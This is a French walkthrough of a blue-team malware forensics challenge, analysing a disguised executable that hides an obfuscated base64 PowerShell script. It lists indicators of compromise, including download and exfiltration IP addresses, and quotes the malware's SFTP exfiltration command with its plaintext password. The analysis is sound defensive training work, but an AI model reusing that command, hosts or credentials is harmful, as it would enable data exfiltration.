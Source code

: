 # Heartbreaker-Continuum

**tags**: #blueteam #forensics #reverse #defensive #sherlock 
Après download et decompression de l’archive on observe un binaire nommé Superstar_MemberCard.tiff.exe.

Son hash sha 256 est 12daa34111bb54b3dcbad42305663e44e7e6c3842f015cccbbe6564d9dfd3ea3 

réponse à la question1

Avec exiftool on retrouve le timestamp ce qui ramené en temps UTC est 2024-03-13 10:38:06 

réponse à la question 2

![Capture d'écran 2024-10-04 222045.png](Capture_dcran_2024-10-04_222045.png)

Avec readpe on arrive à trouver la taille du code du binaire

![Screenshot_2024-10-04_23-39-52.png](Screenshot_2024-10-04_23-39-52.png)

38400

réponse 3

On fait un string et on a le script powershell

![Screenshot_2024-10-05_00-05-33.png](Screenshot_2024-10-05_00-05-33.png)

newILY.ps1

réponse 4

![Screenshot_2024-10-05_00-13-32.png](Screenshot_2024-10-05_00-13-32.png)

A 2c60 on est a 20 octets du début du code obfusqué l’offset est donc 2c74

réponse 5

Le == en début de code fait immédiatement penser à du base64

réponse 6

Après avoir reverse l’ordre du code obfusqué on peu le décode avec echo | base64 -d ou cyberchef

On voit tout de suite le cmdlet Invoke-WebRequest

réponse 7

![image.png](Images/Heartbreaker-Continuum/image.png)

Concernant les indicateurs de compromission on note d’emblée une adresse ip 44.206.187.144 pour download le malware puis une autre utilisée par sftp pour exfiltrer des données35.169.66.138

réponse 8

On note également $targetDir = "C:\Users\Public\Public Files” réponse à la question 9

Pour la question 11 il faut explorer le MITTRE ATTACK en tapant gather data on arrive à l’item collection en affinant la recherche 

| [T1119](https://attack.mitre.org/techniques/T1119) |  | [Automated Collection](https://attack.mitre.org/techniques/T1119) | Once established within a system or 
network, an adversary may use automated techniques for collecting 
internal data. Methods for performing this technique could include use 
of a [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059) to search for and copy information fitting set criteria such as file type, location, or name at specific time intervals. |
| --- | --- | --- | --- |

réponse 10

Pour la dernière question on a vu passer 

`open sftp://service:M8&C!i6KkmGL1-#@35.169.66.138/ -hostkey=*`

Le mdp est en clair dans la requête sftp